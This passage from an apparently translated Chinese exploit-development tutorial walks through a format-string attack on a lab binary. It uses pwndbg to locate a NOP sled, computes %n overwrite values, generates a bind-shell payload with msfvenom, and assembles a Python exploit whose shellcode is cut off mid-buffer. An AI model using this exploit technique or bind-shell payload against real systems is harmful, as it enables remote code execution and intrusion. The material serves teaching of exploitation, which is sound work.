 ```
pattern = '\xcc' * 250 
print w1 + w2 + w3 + w4 + form + nopsled + pattern 
```

25.  现在使用有效负载在调试器中运行应用程序，并检查 ESP 寄存器后的`200`字节：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> x/200x $esp  
```

![](../images/00123.jpeg)

现在我们可以看到堆栈上的 NOP 底座。我们可以在 NoP 雪橇中间选择一个地址来添加 shell 代码。在这里我们可以选择`0xbffff110`。

26.  现在我们必须用从 NOP 底座中选择的真实地址替换地址`0xddccbbaa`。为此，请使用正确的字节更新`exploit.py`：

```
b1 = 0x10
b2 = 0xf1
b3 = 0xff
b4 = 0xbf  
```

27.  现在使用调试器运行应用程序并检查内存位置：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```

![](../images/00124.jpeg)

现在，我们可以使用 Metasploit 生成一个 shell 代码：

```
msfvenom -p linux/x86/shell_bind_tcp PrependFork=true -f python  
```

![](../images/00125.jpeg)

现在用 shell 代码更新漏洞攻击代码：

```
#!/usr/bin/python 
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0x10 
b2 = 0xf1 
b3 = 0xff 
b4 = 0xbf  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 95   
buf =  "" 
buf += "\xbd\x55\xe7\x12\xd0\xd9\xc2\xd9\x74\x24\xf4\x5e\x33" 
buf += "\xc9\xb1\x18\x31\x6e\x13\x03\x6e\x13\x83\xee\xa9\x05" 
buf += "\xe7\xba\x53\x92\xc5\xbb\xd6\xe2\xa2\xbd\xe9\x22\xfa" 
```